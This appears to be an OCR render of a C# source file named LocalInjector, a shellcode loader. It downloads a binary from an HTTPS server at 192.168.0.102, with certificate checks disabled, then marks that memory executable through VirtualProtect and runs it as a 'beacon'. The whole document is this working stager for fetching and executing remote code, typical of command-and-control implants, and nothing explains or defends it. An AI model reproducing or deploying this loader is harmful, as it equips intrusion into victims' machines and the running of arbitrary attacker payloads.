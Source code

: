 using System;
using System.Net;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Threading.Tasks;

namespace LocalInjector
{
    internal class Program
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        delegate void Beacon();

        [DllImport("kernel32.dll")]
        static extern unsafe bool VirtualProtect(
            byte* lpAddress,
            uint dwSize,
            MEMORY_PROTECTION flNewProtect,
            out MEMORY_PROTECTION lpflOldProtect);

        enum MEMORY_PROTECTION : uint
        {
            PAGE_EXECUTE_READ = 0x20,
            PAGE_EXECUTE_READWRITE = 0x40,
            PAGE_READWRITE = 0x04
        }

        static async Task Main(string[] args)
        {
            byte[] shellcode;
            using (var client = new HttpClient())
            {
                ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
                client.BaseAddress = new Uri("https://192.168.0.102");
                shellcode = await client.GetByteArrayAsync("/4.bin");
            }

            unsafe
            {
                fixed (byte* ptr = shellcode)
                {
                    VirtualProtect(
                        ptr,
                        (uint)shellcode.Length,
                        MEMORY_PROTECTION.PAGE_EXECUTE_READWRITE,
                        out _);

                    var beacon = Marshal.GetDelegateForFunctionPointer<Beacon>((IntPtr)ptr);
                    beacon();
                }
            }
        }
    }
}

